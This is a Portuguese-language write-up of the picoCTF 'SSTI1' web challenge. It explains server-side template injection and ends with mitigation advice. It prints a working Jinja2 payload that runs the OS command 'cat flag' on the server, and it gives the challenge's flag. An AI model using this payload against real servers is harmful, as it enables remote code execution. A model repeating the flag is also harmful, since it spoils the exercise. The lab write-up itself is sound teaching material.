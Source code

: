 >	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/492
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI1 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.
-----
## 🧩 Desafio

<center><img src= 'SSTI1 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```
----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI1 fotos/test.png' ></center>


<center><img src= 'SSTI1 fotos/49.png' ></center>  

- Isso indica que o site está **interpretando a entrada como código dentro de um template engine**.**
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:
```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI1 fotos/flag.png' ></center>  

---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade tipo **SSTI** ao observar que entradas no formato `{{ ... }}` eram avaliadas pelo servidor (por exemplo, `{{7 * 7}}` resultou em `49`). A exploração dessa falha permitiu executar um comando no sistema remoto para ler o conteúdo do arquivo `flag`. Em ambientes reais, essa classe de vulnerabilidade pode possibilitar execução remota de código (RCE) e comprometer completamente o servidor — por isso deve ser corrigida com prioridade. Medidas mitigadoras incluem: não inserir diretamente dados do usuário em templates, escapar/validar entradas, e usar motores de template que não permitam avaliação de expressões arbitrárias.

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
